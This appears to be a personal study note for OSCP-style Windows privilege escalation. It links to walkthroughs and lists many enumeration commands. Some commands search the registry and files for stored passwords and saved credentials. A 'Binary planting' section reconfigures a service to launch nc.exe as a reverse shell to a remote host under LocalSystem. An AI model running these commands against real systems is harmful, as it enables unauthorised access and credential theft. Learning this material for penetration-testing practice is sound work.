 
# Guide

1. Repeat below under every single privilege increase
2. Run [[#Default Commands]]
3. Check the users on the victim, `net users`


# Table of Contents

1. If a binary is found within a users directory it is likely exploitable.
2. General guide which lists a vast array of exploits and methods of exploitation, see [Privilege Escalation - Windows](https://mysecurityjournal.blogspot.com/p/client-side-attacks.html)
3. See [[Watson]] to find operating system vulnerabilities  
4. Flags may be within network drives, try mapping, see [[Network Drives]]:
5. If any [[Valuable Files#SAM and System Files]] are found, see [[SamDump]]
6. If you have a hash which you cannot crack, see [[Passing the Hash]]
7. If internal ports are found they can be probed by [[Powercat]] 

#### Walkthroughs

1. [OSCP\_Cheat\_sheet/Windows Privilege Escalation Techniques.md at main · xXxhagenxXx/OSCP\_Cheat\_sheet · GitHub](https://github.com/xXxhagenxXx/OSCP_Cheat_sheet/blob/main/Windows%20Privilege%20Escalation%20Techniques.md)
2. [Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
3. [Privilege Escalation - Windows · Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
# Default Commands 

1. [[windows-privesc-check]]
2. [[WinPeas]]
3. [[Windows Exploit Suggester - Next Generation (WES-NG)]]



# Extra Enumeration Commands

```
// What system are we connected to?
Get-WmiObject -Class win32_OperatingSystem | select Version,BuildNumber
Get-WmiObject -Class win32_Process 
Get-WmiObject -Class win32_Service
Get-WmiObject -Class win32_Bios
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get tokens and privileges 
whoami /priv
Get-WmiObject win32_useraccount | Select name,sid

// Get the hostname and username (if available)
hostname
echo %username%

// Get users
net users
net user [username]

// Networking stuff
ipconfig /all

// Printer?
route print

// ARP-arific
arp -A

// Which protection settings enabled
Get-MpComputerStatus

// Active network connections
netstat -ano

// Firewall fun (Win XP SP2+ only)
netsh firewall show state
netsh firewall show config
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all

// Scheduled tasks
schtasks /query /fo LIST /v

// Running processes to started services
tasklist /SVC
net start

// Driver madness
DRIVERQUERY

// WMIC fun (Win 7/8 -- XP requires admin)
wmic /?
# Use wmic_info script!

// [[Saved Credentials]] 
cmdkey /list

// WMIC: check patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic service get name,displayname,pathname,startmode
wmic service get name,displayname,pathname,startmode |findstr /i "auto"
wmic product get name, version, vendor

// Search pathces for given patch
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

// AlwaysInstallElevated fun
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

// AutoRun (See [[AutoRun SysInternals]])
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

// [[Registry Passwords]] 
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Other commands to run to hopefully get what we need
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Service permissions
sc query
sc qc [service_name]
sc qc dllsvc (See [[DLL Hijacking]] )
sc qc regsvc (If NT Auth, see [[RegSVC Writable]])
sc qc filepermsvc (If SYSTEM SERVICE_START_NAME, see [[Insecure Service Executables]])

// Accesschk stuff
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe /accepteula -uwcqv user daclsvc
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

// Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

// Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*

// Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]

driverquery /v /fo csv
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select Object ‘Display Name’, ‘Start Mode’, Path
```